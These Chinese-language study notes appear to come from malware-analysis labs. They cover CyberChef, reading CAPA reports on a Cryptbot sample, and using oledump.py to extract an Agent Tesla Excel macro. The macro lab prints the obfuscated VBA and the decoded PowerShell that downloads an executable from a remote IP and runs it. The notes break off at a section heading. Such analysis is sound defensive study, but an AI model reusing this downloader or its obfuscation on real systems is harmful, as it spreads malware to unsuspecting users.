

- [CyberChef](#cyberchef)
  - [**CyberChef** 界面布局与功能：](#cyberchef-界面布局与功能)
    - [1. 操作区 (Operations Area)](#1-操作区-operations-area)
    - [2. 配方区 (Recipe Area)](#2-配方区-recipe-area)
    - [3. 输入区 (Input Area)](#3-输入区-input-area)
    - [4. 输出区 (Output Area)](#4-输出区-output-area)
  - [常用操作](#常用操作)
    - [一、 提取类操作 (Extractors)](#一-提取类操作-extractors)
    - [二、 日期与时间 (Date and Time)](#二-日期与时间-date-and-time)
    - [三、 数据格式转换 (Data Format)](#三-数据格式转换-data-format)
    - [四、 深度解析：Base64 手动转换原理](#四-深度解析base64-手动转换原理)
    - [五、 URL 常见编码参考](#五-url-常见编码参考)
- [CAPA](#capa)
  - [介绍](#介绍)
  - [用法](#用法)
    - [2. 常用参数 (Options)](#2-常用参数-options)
  - [报告第一部分：基本信息、MITRE ATT\&CK 框架以及 MAEC 恶意软件分类](#报告第一部分基本信息mitre-attck-框架以及-maec-恶意软件分类)
    - [1. 基本信息](#1-基本信息)
    - [2. MITRE ATT\&CK 框架映射](#2-mitre-attck-框架映射)
    - [3. MAEC 恶意软件属性枚举与表征](#3-maec-恶意软件属性枚举与表征)
  - [报告第二部分：MBC](#报告第二部分mbc)
    - [一、 什么是 MBC？](#一-什么是-mbc)
    - [二、 核心目标 (Objective) 分类](#二-核心目标-objective-分类)
    - [三、 行为与方法 (Behaviors \& Methods)](#三-行为与方法-behaviors--methods)
    - [1. 常见行为示例](#1-常见行为示例)
    - [2. 常见微观行为 (Micro-Behaviors)](#2-常见微观行为-micro-behaviors)
    - [实例拆解：如何读懂一行报告？](#实例拆解如何读懂一行报告)
  - [报告第三部分：命名空间](#报告第三部分命名空间)
    - [一、 命名空间 (Namespace) 的层级结构](#一-命名空间-namespace-的层级结构)
    - [二、 顶级命名空间 (TLN) 详解](#二-顶级命名空间-tln-详解)
    - [三、 实例解析：从能力到命名空间](#三-实例解析从能力到命名空间)
    - [四、 CAPA 的工作原理：规则集 (Rules)](#四-capa-的工作原理规则集-rules)
  - [报告的第四部分：能力](#报告的第四部分能力)
    - [一、 能力 (Capability) 与规则文件的关系](#一-能力-capability-与规则文件的关系)
    - [二、 部分核心能力分类清单](#二-部分核心能力分类清单)
    - [三、 特殊情况：Nursery 暂存地](#三-特殊情况nursery-暂存地)
    - [四、 实例解析：从结果溯源到原理](#四-实例解析从结果溯源到原理)
- [REMnux](#remnux)
  - [恶意代码分析：使用 oledump.py 分析 Excel 宏](#恶意代码分析使用-oledumppy-分析-excel-宏)
    - [1. 实验背景与工具介绍](#1-实验背景与工具介绍)
    - [2. 静态分析步骤](#2-静态分析步骤)
    - [3. 使用 CyberChef 进行深度还原](#3-使用-cyberchef-进行深度还原)
    - [4. PowerShell 恶意行为拆解](#4-powershell-恶意行为拆解)
    - [5. 实验总结](#5-实验总结)
  - [恶意代码分析笔记：使用 INetSim 模拟网络服务](#恶意代码分析笔记使用-inetsim-模拟网络服务)
    - [1. 实验目的](#1-实验目的)
    - [2. 实验环境准备](#2-实验环境准备)
    - [3. INetSim 配置与启动（在 REMnux 上）](#3-inetsim-配置与启动在-remnux-上)
    - [4. 模拟恶意行为（在受害机上）](#4-模拟恶意行为在受害机上)
    - [5. 结果分析：连接报告](#5-结果分析连接报告)
    - [6. 实验总结](#6-实验总结)
  - [内存取证：证据预处理与 Volatility 3 应用](#内存取证证据预处理与-volatility-3-应用)
    - [1. 实验背景](#1-实验背景)
    - [2. Volatility 3 常用插件介绍](#2-volatility-3-常用插件介绍)
    - [3. 高效预处理：批量处理脚本](#3-高效预处理批量处理脚本)
- [FlareVM](#flarevm)
  - [这份笔记为您整理并翻译了 FlareVM 中的核心工具。FlareVM 是一个集成了大量专门用于数字取证、入侵响应和恶意软件调查工具的虚拟环境。](#这份笔记为您整理并翻译了-flarevm-中的核心工具flarevm-是一个集成了大量专门用于数字取证入侵响应和恶意软件调查工具的虚拟环境)
  - [FlareVM 核心工具库](#flarevm-核心工具库)
    - [1. 逆向工程与调试 (Reverse Engineering \& Debugging)](#1-逆向工程与调试-reverse-engineering--debugging)
    - [2. 反汇编与反编译器 (Disassemblers \& Decompilers)](#2-反汇编与反编译器-disassemblers--decompilers)
    - [3. 静态与动态分析 (Static \& Dynamic Analysis)](#3-静态与动态分析-static--dynamic-analysis)
    - [4. 数字取证与入侵响应 (Forensics \& Incident Response)](#4-数字取证与入侵响应-forensics--incident-response)
    - [5. 网络分析 (Network Analysis)](#5-网络分析-network-analysis)
    - [6. 文件分析 (File Analysis)](#6-文件分析-file-analysis)
    - [7. 脚本与自动化 (Scripting \& Automation)](#7-脚本与自动化-scripting--automation)
    - [8. Sysinternals Suite (系统工具集)](#8-sysinternals-suite-系统工具集)
    - [常用调查工具价值速查表](#常用调查工具价值速查表)

# CyberChef
CyberChef 被广泛誉为“网络从业者的瑞士军刀”，是一个简单、直观且功能极其强大的 Web 应用程序，主要用于数据处理和转换。

## **CyberChef** 界面布局与功能：

---

### 1. 操作区 (Operations Area)
这是 CyberChef 的“工具库”，包含了所有可执行的数据处理功能。

* **功能：** 存储并分类展示数百种操作（如编解码、加密、解析等）。
* **交互：** * 可以通过顶部的**搜索框**快速定位特定工具。
    * **悬停提示：** 将鼠标悬停在某个操作上，可以查看功能描述、示例以及相关的维基百科链接。
* **典型示例：**
    * **From Morse Code:** 将摩斯密码转换为文本。
    * **URL Encode:** 将特殊字符转义为 URL 安全格式（百分比编码）。
    * **To Base64:** 将原始数据转换为 ASCII 编码的 Base64 字符串。
    * **To Hex / To Decimal:** 将文本转换为十六进制字节或十进制数组。
    * **ROT13:** 简单的凯撒位移加密（默认位移 13 位）。

---

### 2. 配方区 (Recipe Area)
这是工具的“大脑”，用于组合并配置你的处理逻辑。

* **核心逻辑：** * 用户通过**拖拽**操作区的功能到此，并调整参数（Arguments）来定制化行为。
* **关键功能：**
    * **保存配方 (Save recipe)：** 导出当前的操作组合以便日后使用。
    * **加载配方 (Load recipe)：** 导入之前保存的配置。
    * **清空配方 (Clear Recipe)：** 一键移除所有已选操作。
* **执行机制：**
    * **BAKE! 按钮：** 手动点击以运行当前配方。
    * **Auto Bake 选项：** 勾选后，输入任何内容都会立即自动处理，无需手动点击。

---

### 3. 输入区 (Input Area)
用户提供原始数据的区域。

* **数据录入：** 支持直接打字、粘贴文本，或直接将文件/文件夹拖入。
* **特色辅助功能：**
    * **新增标签页：** 开启多个输入窗口处理不同数据。
    * **打开文件夹/文件：** 批量或单独导入本地数据。
    * **清空输入与输出：** 快速重置当前的处理内容。
    * **重置布局：** 将窗口大小恢复为默认设置。

---

### 4. 输出区 (Output Area)
展示数据经过“配方”处理后的最终结果。

* **操作与导出：**
    * **保存到文件：** 将处理结果导出为 `.dat` 文件。
    * **复制到剪贴板：** 快速复制原始结果。
    * **以输出替换输入 (Replace input with output)：** 将当前结果直接转入输入框，便于进行下一轮不同的处理。
    * **最大化窗口：** 放大输出面板以便查看大量数据。

这是一份关于 CyberChef **常用操作分类**与 **Base64 原理解析**的深度笔记。它涵盖了网络安全实战中最频繁使用的几类工具。

## 常用操作

### 一、 提取类操作 (Extractors)
当面对一大堆杂乱无章的原始数据（如日志、流量包或代码）时，使用提取器可以快速“捞出”关键信息。

| 操作名称 | 功能描述 | 示例/备注 |
| :--- | :--- | :--- |
| **Extract IP addresses** | 提取所有 IPv4 和 IPv6 地址。 | 自动识别符合 IP 格式的字符串。 |
| **Extract URLs** | 提取统一资源定位符（URL）。 | 必须包含协议头（如 `http`），否则误报较多。 |
| **Extract email addresses** | 提取所有电子邮箱地址。 | 识别格式如 `name@domain.com`。 |

---

### 二、 日期与时间 (Date and Time)
在取证分析中，时间戳的转换至关重要。

* **UNIX Timestamp（UNIX 时间戳）：** 指从 1970 年 1 月 1 日（UTC）起流逝的秒数。
* **From UNIX Timestamp：** 将秒数数字转换为人类可读的日期字符串（如 `2026-04-14`）。
* **To UNIX Timestamp：** 将日期字符串（如 `Fri Sep 6 2024`）转换为对应的秒数（如 `1725654622`）。

---

### 三、 数据格式转换 (Data Format)
这是 CyberChef 最核心的部分，涉及各种 **Base 编码**。

| 操作名称 | 功能描述 | 特点 |
| :--- | :--- | :--- |
| **From Base64** | 将 Base64 字符串还原为原始数据。 | 最常用的编码格式，结尾常带 `=`。 |
| **URL Decode** | 将百分比编码（如 `%3A`）转回原始字符（如 `:`）。 | 常见于 Web 流量分析。 |
| **From Base85** | 将 Base85 编码还原。 | 比 Base64 更节省空间，多见于 Adobe 相关文档。 |
| **From Base58** | 将 Base58 编码还原。 | 移除了易混淆字符（l, I, 0, O），常用于比特币。 |
| **To Base62** | 将数据转换为 Base62。 | 只使用数字和大小写字母，更简洁。 |

---

### 四、 深度解析：Base64 手动转换原理
Base64 是将二进制数据转换为文本的编码方式。以 **"THM"** 为例，转换分为三步：

#### **第一步：转换为二进制并合并**
根据 ASCII 表找到每个字母对应的 8 位二进制：
* **T** = `01010100`
* **H** = `01001000`
* **M** = `01001101`
* **合并结果：** `010101000100100001001101`（共 24 位）

#### **第二步：重新分组并转为十进制**
将这 24 位数据重新按 **6 位一组** 进行切割，得到 4 个数字：
1.  `010101` $\rightarrow$ **21**
2.  `000100` $\rightarrow$ **4**
3.  `100001` $\rightarrow$ **33**
4.  `001101` $\rightarrow$ **13**

#### **第三步：对照 Base64 索引表**
根据上一步得到的数字，在 Base64 索引表中查找对应的字符：
* **21** $\rightarrow$ **V**
* **4** $\rightarrow$ **E**
* **33** $\rightarrow$ **h**
* **13** $\rightarrow$ **N**
* **最终结果：** `VEhN`

---

###  五、 URL 常见编码参考
在处理 URL 时，常见的字符转换如下：

| 原始字符 | UTF-8 百分比编码 |
| :--- | :--- |
| `:` | `%3A` |
| `/` | `%2F` |
| `.` | `%2E` |
| `=` | `%3D` |
| `#` | `%23` |

# CAPA
## 介绍
**CAPA**（全称 Common Analysis Platform for Artifacts）是由 FireEye Mandiant 团队开发的一款工具。它旨在**识别可执行文件中的功能（Capabilities）**，支持的文件类型包括 PE（Windows 可执行文件）、ELF（Linux 二进制文件）、.NET 模块、Shellcode 甚至沙箱报告。它通过分析文件并应用一套**描述常见行为的规则**来实现这一点，从而确定程序能够执行的操作，例如**网络通信、文件操作、进程注入**等。

* **工具定位：** CAPA 是一款用于**静态分析**的自动化工具（无需运行程序即可分析）。
* **核心功能：** 识别二进制文件的**能力（Capabilities）**——即“这个程序能干什么？”。
* **工作原理：** 基于专家编写的**规则库**，自动匹配程序中的行为特征。
* **分析范畴：** 可识别网络连接、文件篡改、内存注入等恶意或敏感操作。
* **适用人群：** 降低了逆向工程的门槛，让初级分析师也能利用顶级专家的知识积累快速定性恶意软件。
## 用法
运行 CAPA 非常简单，只需三步：
1.  **打开终端：** 启动 PowerShell（可能需要一点时间加载）。
2.  **进入目录：** 使用 `cd` 命令进入工具所在文件夹：
    `cd C:\Users\Administrator\Desktop\capa`
3.  **执行分析：** 运行 `capa` 命令并指向目标文件：
    `.\capa.exe .\cryptbot.bin`

### 2. 常用参数 (Options)
通过添加参数，你可以获得更详尽的信息：

| 参数 | 描述 | 示例语法 |
| :--- | :--- | :--- |
| **-h / --help** | 显示帮助信息并退出。 | `capa -h` |
| **-v / --verbose** | **详细模式：** 输出更详细的结果文档。 | `capa.exe .\file.bin -v` |
| **-vv / --vverbose** | **极其详细模式：** 提供最深层的分析细节（处理时间最长）。 | `capa.exe .\file.bin -vv` |

这份笔记将深入剖析 CAPA 分析报告的第一部分：**基本信息**、**MITRE ATT&CK 框架**以及 **MAEC 恶意软件分类**。

---

## 报告第一部分：基本信息、MITRE ATT&CK 框架以及 MAEC 恶意软件分类
### 1. 基本信息
```text
┌─────────────┬────────────────────────────────────────────────────────────────────────────────────┐
│ md5         │ 3b9d26d2e7433749f2c32edb13a2b0a2                                                   │
│ sha1        │ 969437df8f4ad08542ce8fc9831fc49a7765b7c5                                           │
│ sha256      │ ae7bc6b6f6ecb206a7b957e4bb86e0d11845c5b2d9f7a00a482bef63b567ce4c                   │
│ analysis    │ static                                                                             │
│ os          │ windows                                                                            │
│ format      │ pe                                                                                 │
│ arch        │ i386                                                                               │
│ path        │ /home/strategos/Room-CAPA/cryptbot.bin                                             │
└─────────────┴────────────────────────────────────────────────────────────────────────────────────┘
```

* **哈希值 (md5, sha1, sha256)：** 文件的数字签名，用于在病毒库（如 VirusTotal）中检索已知威胁。
* **分析方式 (analysis)：** 显示为 `static`（静态分析），意味着 CAPA 没有实际运行程序，而是通过扫描代码特征得出的结论。
* **操作系统 (os)：** 识别该二进制文件运行的目标平台（如 `windows`）。
* **架构 (arch)：** 指明处理器架构。`i386` 表示这是 32 位的二进制文件。
* **格式 (format)：** `pe` 代表 Windows 的可执行文件格式。

---

### 2. MITRE ATT&CK 框架映射
Adversarial Tactics, Techniques, and Common Knowledge

这是报告中最核心的部分之一。它将枯燥的代码特征转化为攻击者的**战术（Tactic）**和**技术（Technique）**。
```text
┌──────────────────────┬───────────────────────────────────────────────────────────────────────────┐
│ ATT&CK Tactic        │ ATT&CK Technique                                                          │
├──────────────────────┼───────────────────────────────────────────────────────────────────────────┤
│ DEFENSE EVASION      │ Obfuscated Files or Information [T1027]                                   │
│                      │ Obfuscated Files or Information::Indicator Removal from Tools [T1027.005] │
│                      │ Virtualization/Sandbox Evasion::System Checks [T1497.001]                 │
│ DISCOVERY            │ File and Directory Discovery [T1083]                                      │
│ EXECUTION            │ Command and Scripting Interpreter::PowerShell [T1059.001]                 │
│                      │ Shared Modules [T1129]                                                    │
│ IMPACT               │ Resource Hijacking [T1496]                                                │
│ PERSISTENCE          │ Scheduled Task/Job::At [T1053.002]                                        │
│                      │ Scheduled Task/Job::Scheduled Task [T1053.005]                            │
└──────────────────────┴───────────────────────────────────────────────────────────────────────────┘
```

#### 1. 结构解析
CAPA 的输出遵循以下层级结构：
> **战术 (Tactic)** :: **技术 (Technique)** :: **子技术 (Sub-technique)** [ID]

* **战术：** 攻击者的目标（例如：`DEFENSE EVASION` 绕过防御）。
* **技术：** 达成目标的方法（例如：`Obfuscated Files` 文件混淆）。
* **ID：** 官方编号（如 `T1027`），方便在 MITRE 官网查询详细防御对策。

#### 2. 报告实例分析
| 战术 (Tactic) | 技术 (Technique) | 含义解读 |
| :--- | :--- | :--- |
| **DEFENSE EVASION** | 系统检查 [T1497.001] | 程序正在检测自己是否运行在**虚拟机/沙箱**中，试图躲避分析。 |
| **DISCOVERY** | 文件与目录发现 [T1083] | 程序在扫描电脑里的文件，可能在寻找钱包文件或敏感信息。 |
| **EXECUTION** | PowerShell [T1059.001] | 该程序会调用 PowerShell 脚本来执行命令。 |
| **PERSISTENCE** | 计划任务 [T1053.005] | 程序通过创建“计划任务”来实现重启后自动运行。 |

---

### 3. MAEC 恶意软件属性枚举与表征
Malware Attribute Enumeration and Characterization

```text
┌─────────────────────────────┬────────────────────────────────────────────────────────────────────┐
│ MAEC Category               │ MAEC Value                                                         │
├─────────────────────────────┼────────────────────────────────────────────────────────────────────┤
│ malware-category            │ launcher                                                           │
└─────────────────────────────┴────────────────────────────────────────────────────────────────────┘
```

MAEC 是一种标准化的描述语言，用于给恶意软件“定性”。CAPA 最常给出的两个标签是：

#### 1. Launcher (启动器) —— 本例中的分类
* **定义：** 表现出触发特定恶意操作的行为。
* **典型行为：**
    * 释放（Drop）额外的恶意载荷。
    * 激活持久化机制（如修改注册表让程序自启动）。
    * 连接 C2 指挥控制服务器。

#### 2. Downloader (下载器)
* **定义：** 主要功能是从互联网下载并执行其他文件。
* **典型行为：**
    * 从网络获取二阶段载荷。
    * 拉取配置文件或更新补丁。
    * 通常作为复杂攻击的第一步。

## 报告第二部分：MBC
```text
┌─────────────────────────────┬──────────────────────────────────┐
│ MBC Objective               │ MBC Behavior                     │
├─────────────────────────────┼──────────────────────────────────┤
| DATA                        │ Encode Data::Base64 [C0026.001]  │
└─────────────────────────────┴──────────────────────────────────┘
```
### 一、 什么是 MBC？
**MBC (Malware Behavior Catalogue)** 是专门为恶意软件分析设计的标准化字典。
* **与 ATT&CK 的关系：** ATT&CK 描述攻击者的“战术”，而 MBC 补充了大量底层代码的“行为特征”。
* **结构格式：**
    * `目标 (Objective) :: 行为 (Behavior) :: 方法 (Method) [ID]`
    * *例子：* `DATA :: Encode Data :: Base64 [C0026.001]`

---

### 二、 核心目标 (Objective) 分类
在 CAPA 报告的左侧列中，你会看到以下几种主要目标：

#### 1. 专项分析对抗 (Analysis Obstruction)
* **Anti-Behavioral Analysis (反行为分析)：** 躲避**沙箱**或调试器。例如：检测是否运行在 VMware 或 VirtualBox 中。
* **Anti-Static Analysis (反静态分析)：** 增加**反汇编/反编译**的难度。例如：混淆 API 参数、使用栈字符串。

#### 2. 标准攻击阶段
* **Discovery (发现)：** 探测系统环境、文件路径等。
* **Execution (执行)：** 运行未经授权的命令或脚本（如 PowerShell）。
* **Persistence (持久化)：** 确保自己重启后依然运行。
* **Credential Access (凭据访问)：** 窃取用户名和密码。

#### 3. 微观目标 (Micro-Objective)
这些是底层动作，本身不一定是恶意的，但常被木马滥用：
* **PROCESS (进程)：** 创建、终止进程或注入代码。
* **MEMORY (内存)：** 申请空间（用于解压恶意载荷）、修改内存保护属性。
* **DATA (数据)：** 编码/加密数据、检查特定字符串（如信用卡号）。

---

### 三、 行为与方法 (Behaviors & Methods)
这是程序具体“怎么做”的细节。

### 1. 常见行为示例
| 行为 (Behavior) | 标识符 (ID) | 详细解释 |
| :--- | :--- | :--- |
| **Virtual Machine Detection** | B0009 | 检测虚拟机环境（为了不给分析师看真相）。 |
| **Stack Strings** | B0032.017 | **重点：** 在栈中动态构建字符串。静态分析看不出字符串内容，只有运行时才会组合，用于躲避特征码扫描。 |
| **Command Interpreter** | E1059 | 调用 `cmd.exe` 或 `powershell.exe`。 |

### 2. 常见微观行为 (Micro-Behaviors)
| 行为名称 | 标识符 | 恶意用途举例 |
| :--- | :--- | :--- |
| **Allocate Memory** | C0007 | 在内存中挖块地，把加密的木马本体解压进去。 |
| **Create Process** | C0017 | 启动一个新的隐藏进程来执行恶意任务。 |
| **HTTP Communication** | C0002 | 连接 C2 服务器接收指令。 |
| **XOR / Base64** | C0026 | 对外发数据进行简单加密或编码，躲避防火墙。 |

### 实例拆解：如何读懂一行报告？
假设你在报告中看到：
`DATA | Encode Data :: Base64 [C0026.001]`

* **Objective (DATA)：** 它在处理数据。
* **Behavior (Encode Data)：** 它具备对数据进行编码的能力。
* **Method (Base64)：** 它具体使用的是 Base64 算法。
* **分析结论：** “该文件能够将信息（如窃取的密码）通过 Base64 编码后隐藏发送。”

## 报告第三部分：命名空间

### 一、 命名空间 (Namespace) 的层级结构
CAPA 使用命名空间将功能类似的规则进行归类。你可以将其想象成一个电脑文件夹系统：

* **结构格式：** `能力 (规则名称) :: 顶级命名空间 (TLN) / 次级命名空间`
* **示例：** `reference anti-VM strings :: anti-analysis / anti-vm / vm-detection`
    * **能力：** 引用了反虚拟机字符串。
    * **顶级命名空间 (TLN)：** `anti-analysis`（反分析）。
    * **次级命名空间：** `anti-vm/vm-detection`（虚拟机检测）。

---

### 二、 顶级命名空间 (TLN) 详解
了解顶级命名空间能让你一眼看出恶意软件的大致意图。

| 顶级命名空间 (TLN) | 核心含义 | 包含的行为示例 |
| :--- | :--- | :--- |
| **anti-analysis** | **对抗分析** | 混淆、加壳、检测虚拟机、检测调试器。 |
| **collection** | **信息搜集** | 枚举文件、截屏、记录键盘输入、窃取数据。 |
| **communication** | **网络通信** | 与 C2 服务器交互、发送/接收 HTTP 请求。 |
| **data-manipulation** | **数据处理** | 字符串加密、Base64 编码、XOR 异或计算。 |
| **host-interaction** | **主机交互** | 读写文件、创建目录、修改注册表。 |
| **load-code** | **代码加载** | 动态加载 DLL、代码注入（Shellcode）。 |
| **persistence** | **持久化** | 修改启动项、创建计划任务（保证重启不丢）。 |
| **impact** | **破坏影响** | 数据加密（勒索）、删除文件、建立远程控制。 |
| **executable** | **文件特征** | 分析 PE 文件的各个节（Section）、资源信息。 |

---

### 三、 实例解析：从能力到命名空间
以 **Cryptbot** 的部分输出为例：

1.  **能力：** `reference cryptocurrency strings`
    * **命名空间：** `impact/cryptocurrency`
    * **解读：** 该程序包含与**加密货币**相关的字符串。结合其窃取行为，这极有可能是个专门偷比特币钱包的木马。

2.  **能力：** `encode data using XOR`
    * **命名空间：** `data-manipulation/encoding/xor`
    * **解读：** 它使用了 XOR 算法。恶意软件常以此隐藏其配置信息或通信数据。

3.  **能力：** `run PowerShell expression`
    * **命名空间：** `load-code/powershell/`
    * **解读：** 它在运行时会调用 PowerShell 命令。这是攻击者常用的“免杀”手段，通过合法脚本执行恶意动作。

---

### 四、 CAPA 的工作原理：规则集 (Rules)
每一个命名空间下，其实都躺着一堆 **.yml** 格式的规则文件。
* **规则的作用：** 每一条规则都是专家编写好的“行为模板”。
* **匹配逻辑：** 如果一个文件搜寻了特定的注册表键（比如 VMware 的键值），CAPA 就会匹配到 `anti-vm/vm-detection` 文件夹下的规则，并在报告中打印出来。

## 报告的第四部分：能力
### 一、 能力 (Capability) 与规则文件的关系

在 CAPA 报告中，“能力”列的内容实际上就是后台**规则文件（YAML）的名字**。

* **命名规律：** 能力名称与 `.yml` 文件名几乎完全一致，只是文件名用连字符（-）替代了空格。
* **示例：**
    * 报告显示能力：`reference anti-VM strings`
    * 对应的规则文件：`reference-anti-vm-strings.yml`

---

### 二、 部分核心能力分类清单


| 发现的能力 (Capability) | 顶级命名空间 (TLN) | 重点说明 |
| :--- | :--- | :--- |
| **reference anti-VM strings** | **Anti-Analysis** | 程序在搜索虚拟机特有的注册表键值或工具痕迹，意图**躲避分析**。 |
| **reference HTTP User-Agent** | **Communication** | 程序包含特定的用户代理字符串，暗示它会**发起网络请求**。 |
| **reference Base64 string** | **Data Manipulation** | 程序具备使用 Base64 方案**编码/解码数据**的能力。 |
| **encode data using XOR** | **Data Manipulation** | 发现 **XOR 异或算法**，通常用于隐藏配置信息或简单加密载荷。 |
| **create directory / write file** | **Host-Interaction** | 程序会在受害者主机上**创建目录、写入文件**（如释放木马本体）。 |
| **run PowerShell expression** | **Load-Code** | 通过 **PowerShell** 执行脚本，这是一种常见的“免杀”动态加载代码手段。 |
| **schedule task via schtasks** | **Persistence** | 利用 Windows 计划任务实现**持久化潜伏**，确保电脑重启后程序仍能运行。 |

---

### 三、 特殊情况：Nursery 暂存地

在查阅命名空间时，你会发现有些规则“名不副实”。

* **规则漂移：** 例如 `reference cryptocurrency strings`（引用加密货币字符串），按理说应该在 `Impact` 目录下，但实际上你可能在 `Nursery` 目录下找到它。
* **什么是 Nursery？** 这是一个**孵化/暂存区**。所有新编写的、尚未完全打磨好（unpolished）的规则都会先放在这里。如果一个规则还不够成熟，无法被正式归入主类别，它就会出现在 `Nursery` 中。

---

### 四、 实例解析：从结果溯源到原理

以 **Base64 能力** 为例，当我们看到报告中这一行时，其实际含义如下：

| 标签 | 内容 | 深度解读 |
| :--- | :--- | :--- |
| **Capability** | reference base64 string | 程序包含 Base64 特征。 |
| **TLN** | data-manipulation | 这属于“数据操纵”，即程序正在转换或改变数据的形态。 |
| **Namespace** | encoding/base64 | 具体行为是 Base64 编解码。 |
| **匹配的 YAML 规则** | reference-base64-string.yml | CAPA 正是通过扫描该规则定义的特征码，锁定了这一行为。 |


**实战提示：** 当你在 CAPA 中看到某个不理解的 `Capability` 时，直接去 CAPA 的官方 GitHub 规则库搜索对应的 `.yml` 文件，里面详细记录了触发该规则的代码特征（如特定的 API 调用或字符串）。

# REMnux
REMnux 和 Kali Linux 都是网络安全领域非常流行的 Linux 发行版，但它们的设计初衷和应用场景有显著区别。简单来说：Kali 侧重于“进攻”（渗透测试），而 REMnux 侧重于“防御与分析”（恶意软件分析）。

以下是关于使用 `oledump.py` 进行恶意恶意文档静态分析的实验笔记整理：

---

## 恶意代码分析：使用 oledump.py 分析 Excel 宏

### 1. 实验背景与工具介绍
* **目标文件**：`agenttesla.xlsm`（一个潜在的恶意 Excel 文档）。
* **工具**：`oledump.py`。
    * **用途**：分析 OLE2 文件（如早期的 Office 文档、结构化存储二进制格式）。
    * **核心功能**：提取并检查 OLE2 文件中的数据流（Data Streams），特别适用于取证分析和病毒检测。

### 2. 静态分析步骤

#### 第一步：初次扫描文件结构
在终端执行以下命令，查看文档内部的所有数据流：
```bash
oledump.py agenttesla.xlsm
```
**分析输出结果**：
```text
ubuntu@10.48.191.74:~/Desktop/tasks/agenttesla$ oledump.py agenttesla.xlsm 
A: xl/vbaProject.bin
 A1:       468 'PROJECT'
 A2:        62 'PROJECTwm'
 A3: m     169 'VBA/Sheet1'
 A4: M     688 'VBA/ThisWorkbook'
 A5:         7 'VBA/_VBA_PROJECT'
 A6:       209 'VBA/dir'
```
* **索引 A**：代表 `xl/vbaProject.bin`，这是存放 VBA 脚本的核心文件。
* **关键标识 `M`**：如果流（Stream）标记为大写字母 **M**（Macro），说明该流包含**宏代码**。
* **本案例重点**：流 **A4** 标记为 `M`，对应的位置是 `VBA/ThisWorkbook`。

#### 第二步：查看特定数据流（十六进制）
使用 `-s` 参数指定查看第 4 个流（A4）：
```bash
oledump.py agenttesla.xlsm -s 4
```
* **结果**：输出为十六进制（Hex Dump）。虽然能看到 `powershell`、`http` 等零散字符，但由于存在混淆且格式不直观，难以直接阅读。

#### 第三步：代码反混淆与解压
使用 `--vbadecompress` 参数将压缩的 VBA 宏还原为可读代码：
```bash
oledump.py agenttesla.xlsm -s 4 --vbadecompress
```
结果如下：
```text
...(省略)
Dim Sqtnew As String, sOutput As String
Dim Mggcbnuad As Object, MggcbnuadExec As Object
Sqtnew = "^p*o^*w*e*r*s^^*h*e*l^*l* *^-*W*i*n*^d*o*w^*S*t*y*^l*e* *h*i*^d*d*^e*n^* *-*e*x*^e*c*u*t*^i*o*n*pol^icy* *b*yp^^ass*;* $TempFile* *=* *[*I*O*.*P*a*t*h*]*::GetTem*pFile*Name() | Ren^ame-It^em -NewName { $_ -replace 'tmp$', 'exe' }  Pass*Thru; In^vo*ke-We^bRe*quest -U^ri ""http://193.203.203.67/rt/Doc-3737122pdf.exe"" -Out*File $TempFile; St*art-Proce*ss $TempFile;"
Sqtnew = Replace(Sqtnew, "*", "")
Sqtnew = Replace(Sqtnew, "^", "")
Set Mggcbnuad = CreateObject("WScript.Shell")
Set MggcbnuadExec = Mggcbnuad.Exec(Sqtnew)
```
**关键代码片段分析**：
```vba
' 混淆后的字符串
Sqtnew = "^p*o^*w*e*r*s^^*h*e*l^*l* *^-*W*i*n*^d*o*w^*S*t*y*^l*e* ..."
' 移除干扰字符 "*" 和 "^"
Sqtnew = Replace(Sqtnew, "*", "")
Sqtnew = Replace(Sqtnew, "^", "")
' 执行 shell 命令
Set Mggcbnuad = CreateObject("WScript.Shell")
Set MggcbnuadExec = Mggcbnuad.Exec(Sqtnew)
```

### 3. 使用 CyberChef 进行深度还原
将 `Sqtnew` 的原始值放入 **CyberChef**，通过 `Find/Replace` 操作去除所有的 `*` 和 `^`。

**还原后的最终命令**：
```powershell
powershell -WindowStyle hidden -executionpolicy bypass; 
$TempFile = [IO.Path]::GetTempFileName() | Rename-Item -NewName { $_ -replace 'tmp$', 'exe' } PassThru; 
Invoke-WebRequest -Uri "http://193.203.203.67/rt/Doc-3737122pdf.exe" -OutFile $TempFile; 
Start-Process $TempFile;
```

### 4. PowerShell 恶意行为拆解
通过分析上述还原后的命令，可以确定该宏的攻击逻辑：

1.  **隐身执行 (`-WindowStyle hidden`)**：在后台悄悄运行，不弹出任何 PowerShell 窗口，避免引起用户注意。
2.  **绕过策略 (`-executionpolicy bypass`)**：无视系统的脚本执行限制，强制运行恶意代码。
3.  **创建临时文件**：获取一个系统临时路径，并将其后缀从 `.tmp` 修改为 `.exe`。
4.  **远程下载 (`Invoke-WebRequest`)**：从远程服务器 `193.203.203.67` 下载名为 `Doc-3737122pdf.exe` 的可执行文件。
5.  **激活木马 (`Start-Process`)**：立即运行下载好的 `.exe` 文件。

### 5. 实验总结
* **威胁特征**：这是一种典型的 **Downloader（下载器）** 攻击手法。
* **混淆技术**：通过在字符串中插入特殊符号（如 `^` 和 `*`）来躲避自动化静态扫描（如杀毒软件的关键词检测）。
* **结论**：`agenttesla.xlsm` 是一个高度危险的文档，一旦用户点击“启用内容（宏）”，系统将自动从外部下载并感染 Agent Tesla 木马。

以下是关于使用 **INetSim** 搭建虚拟网络环境以辅助恶意软件动态分析的实验笔记整理：

---

## 恶意代码分析笔记：使用 INetSim 模拟网络服务

